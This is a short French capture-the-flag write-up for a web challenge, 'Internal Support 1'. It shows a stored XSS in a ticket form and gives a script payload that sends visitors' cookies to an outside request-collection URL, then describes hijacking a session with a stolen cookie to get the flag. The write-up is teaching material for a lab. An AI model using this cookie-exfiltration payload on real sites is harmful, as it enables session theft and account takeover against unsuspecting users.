




# Internal Support 1 

> Categorie(s): `web`



En se connectant au site web et en essayant d'injecter du JS en créant un ticket, on se rends rapidement compte que le site est vulnérable aux **XSS**:

Grâce à l'outil [requestbin.com](https://requestbin.com/), nous sommes capables de lire les requêtes HTTP à destination du site suivant:



On crée un ticket avec le bon payload:

```html
<script> window.location = "https://dced6e45ea51d0c8a6f9054020499e07.m.pipedream.net/?cookie=" + document.cookie </script>
```

Si on inspecte les logs, on peut observer des requêtes provenant de différentes adresses IP et avec différent Cookies:  



En remplacant notre cookie par celui que nous avons intercepté, on est redirigé vers la page:



Le flag est donc `NoUserValidationIsADangerousPractice`
